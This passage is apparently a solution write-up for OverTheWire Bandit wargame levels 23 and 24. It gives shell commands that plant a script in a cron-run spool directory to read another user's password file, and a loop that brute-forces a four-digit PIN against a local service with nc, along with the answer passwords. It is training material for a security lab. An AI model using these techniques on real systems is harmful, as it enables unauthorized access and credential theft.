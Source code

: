 **Password**

```
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

<br>

### LEVEL 23 (bandit23)

**Solution**

```bash
cd /etc/cron.d
cat cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/bandit23
cd /tmp/bandit23
touch script.sh
chmod 777 script.sh
echo '#!/bin/bash' >> script.sh
echo 'cat /etc/bandit_pass/bandit24 > /tmp/bandit23/password' >> script.sh
touch password
chmod 666 password
cp script.sh /var/spool/bandit24
# Wait for the script to be executed in bandit24
cat password
```

**Password**

```
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

<br>

### LEVEL 24 (bandit24)

**Solution**

```bash
mkdir /tmp/bandit24 && cd $_
passwords=""

for i in {0000..9999}; do
    echo $i
    passwords="$passwords\nUoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i"
done

echo -e $passwords > passwords.txt
nc localhost 30002 < passwords.txt
```

**Password**

```
uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```
